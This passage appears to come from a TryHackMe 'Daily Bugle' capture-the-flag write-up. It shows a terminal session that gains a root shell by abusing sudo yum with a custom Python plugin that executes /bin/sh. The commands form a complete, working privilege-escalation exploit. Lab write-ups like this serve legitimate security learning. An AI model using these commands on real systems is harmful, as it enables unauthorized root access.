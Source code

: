 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Daily-Bugle/images/a10.png)

Let's copy and paste that to the target machine!

```
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
```